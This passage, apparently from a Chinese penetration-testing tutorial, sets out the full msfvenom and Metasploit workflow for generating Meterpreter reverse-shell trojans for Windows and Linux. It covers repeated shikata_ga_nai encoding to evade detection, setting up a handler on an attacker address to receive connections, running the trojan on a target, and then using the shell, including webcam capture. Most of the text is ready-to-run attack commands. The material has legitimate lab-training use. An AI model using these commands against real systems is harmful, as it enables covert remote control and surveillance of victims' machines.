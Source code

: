 ```shell
--shellest最小化生成payload
-h, --help 查看帮助选项
```

### 2.19.1 windows端

```shell
#注意：msfvenom在shell里使用，不是msfconsole终端。
msfvenom是用来生成后门的软件，在目标机上执行后门，在本地监听上线。

#1.生成木马
#-p:payload, windows/x64/meterpreter/reverse_tcp:系统/架构/作用/方式
#lhost=192.168 123.136 lport=9999, payload设置,这里是攻击者主机kali主机地址
#-f:format,-o:output,exe:windows可执行文件，
msfvenom -p windows/x64/meterpreter/reverse_tcp lhost=10.102.224.109 lport=4444 -f exe -o demo.exe
或(因为有时候x64不太稳定)
msfvenom -p windows/meterpreter/reverse_tcp lhost=10.102.224.109 lport=4444 -b "\x00\x0ff" -a x86 --platform windows -e x86/shikata_ga_nai -i 5 -f exe -o demo1.exe

#2.在msf里面开启监听，等待被攻击者上钩
msfconsole
use exploit/multi/handler
set payload windows/x64/meterpreter/reverse_tcp
或 set payload windows/meterpreter/reverse_tcp
set lhost 10.102.224.109
set lport 4444
run
#观察到获取了肉鸡的shell之后，可以执行调用摄像头等之类的操作
webcam_snap -i 1 -p test.png -v false

#3.windows靶机运行木马文件
注意，需要关闭windows上的杀毒软件并且windows defenders 要允许执行这个exe文件
```

### 2.19.2 linux端

```shell
#1.生成木马
msfvenom -p linux/x64/meterpreter/reverse_tcp lhost=10.102.224.109 lport=4444 -b "\x00\x0ff" -a x64 --platform linux -i 5 -f elf -o hi.elf


#2.在kali机开启监听
use exploit/multi/handler
set payload linux/x64/meterpreter/reverse_tcp
set lhost 10.102.224.109
set lport 4444
run

#3.linux靶机运行木马文件
将生成的hi.elf文件上传到Linux靶机，并赋予权限：chmod 777 hi.elf
然后执行文件 ./hi.elf

#4.此时在kali监听处将获取到meterpreter的shell，执行后续操作即可，如查看当前目录
pwd
```
